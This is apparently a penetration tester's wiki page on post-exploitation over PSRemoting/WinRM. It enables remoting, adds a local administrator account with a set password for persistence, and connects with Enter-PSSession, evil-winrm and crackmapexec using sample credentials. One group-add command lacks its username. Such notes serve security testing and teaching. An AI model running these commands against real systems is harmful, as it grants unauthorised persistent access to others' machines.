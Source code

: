 # PSRemoting

## Enabling PSRemoting

After getting administrator access to a machine it is possible to enable PSRemoting:

```
Enable-PSRemoting
```

It might be usefull to add a new user or a user you already have to the local `Administrator` or `Remote Management Group`.

```
net user user Welcome01! /add
net localgroup administrators user /add
net localgroup "Remote Management Users" /add
```

## Accessing the machine

### PowerShell Enter-PSsession

```
Enter-PSSession ws01
```

![](<../../../.gitbook/assets/image (20) (1) (2) (1).png>)

### Evil-WinRM

* [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

```
evil-winrm -i 10.0.0.128 -u john -p 'Welcome2022!'
```

![](<../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1).png>)

## Crackmapexec

* [https://github.com/byt3bl33d3r/CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

```
crackmapexec winrm 10.0.0.128 -u john -p 'Welcome2022!'
```

![](<../../../.gitbook/assets/image (42) (1) (1) (1) (1) (1) (1) (1).png>)

{% hint style="info" %}
#### Observation

During testing I found out that crackmapexec is really slow over winrm if Windows Firewall is enabled on our fully up-to-date Windows 10 machine.
{% endhint %}

## References

{% embed url="https://github.com/Hackplayers/evil-winrm" %}

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}
